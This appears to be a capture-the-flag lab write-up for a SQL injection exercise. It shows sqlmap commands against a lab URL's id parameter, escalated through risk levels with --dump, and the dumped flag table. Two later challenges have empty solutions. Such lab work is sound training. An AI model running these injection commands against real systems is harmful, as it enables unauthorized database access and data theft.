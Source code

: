 ## Challenge 1

What's the contents of table flag5? (Case #5)

## Solution 1

On the page, I clicked hte Case5, and there was a link to click with the description to detect and exploit the vulnerability in GET parameter id.

That send me to the following link: `http://83.136.255.180:53163/case5.php?id=1`.

I started the SQLmap with the following command:

```sh
python3 sqlmap.py "http://83.136.255.180:53163/case5.php?id=1"
```

and this didn't produce any result, so since it needs `OR`, I will increase the risk level to 2.

```sh
python3 sqlmap.py "http://83.136.255.180:53163/case5.php?id=1" --risk=2
```
This again didn't bring any result, so I will now set the risk to 3.

```sh
python3 sqlmap.py "http://83.136.255.180:53163/case5.php?id=1" --risk=3 --dump
```

and I got the flag, which is:

```sh
+----+---------------------------------+
| id | content                         |
+----+---------------------------------+
| 1  | HTB{700_much_r15k_bu7_w0r7h_17} |
+----+---------------------------------+
```

## Challenge 2

What's the contents of table flag6? (Case #6)

## Solution 2

## Challenge 3

What's the contents of table flag7? (Case #7)

## Solution 3